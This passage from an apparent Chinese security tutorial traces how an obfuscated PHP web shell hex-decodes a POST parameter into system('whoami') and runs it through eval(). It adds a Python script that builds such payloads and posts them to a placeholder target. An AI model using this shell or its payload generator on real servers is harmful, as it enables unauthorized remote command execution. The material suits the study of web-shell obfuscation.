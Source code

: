 -   刚开始传入参数：`num`\=`2`，`Qxi*37yz`\=`6173797374656d282777686f616d6927293b62`
-   第一步：先根据 `substr()`，从 num=2 开始截取到倒数第 2 位，于是 `Qxi*37yz` 便等于 `73797374656d282777686f616d6927293b`
-   第二步：再根据 `pack("H*",...)`，将 `Qxi*37yz`\=`73797374656d282777686f616d6927293b` 从 16 进制转为字符串即 `system('whoami');`
-   第三步：最后根据 `foreach()`，将内容返还给原本的值，使得 `encode()` 函数的输出变量 `$post1` 为 `system('whoami');`
-   第四步：再在 `Xt()` 函数当中，用 `eval()` 高危函数执行 php 语句 `system('whoami');`,便成功执行系统命令 `whoami`

当然这个 PHP 木马也能用蚁剑来连接，前提是需要写一个编码器，如果你懂原理了，相信你分分钟就能写出来~

这里的话，微信的 `@Elvery` 师傅还写了一个直接生成 Payload 一键传参的 Python 脚本，师傅们可以参考一下：

```bash
import requests
import base64

# 指定 num 参数和要执行的 PHP 代码
num = 5
php_code = 'echo "Hello, world!";'

# 把 PHP 代码转换为十六进制字符串
hex_code = php_code.encode().hex()

# 在字符串的开头和结尾加上 num 个任意字符
encoded_code = 'a'*num + hex_code + 'a'*num

# 发送 POST 请求
response = requests.post('http://your-target-url/path-to-php-file.php', data={
    'num': num,
    'Qxi*37yz': encoded_code,
})

# 打印服务器的响应
print(response.text)
```

[![](assets/1707954023-77428bda57d5f35f2299abe79f20c69e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205143937-54b2f5b2-c3f1-1.png)
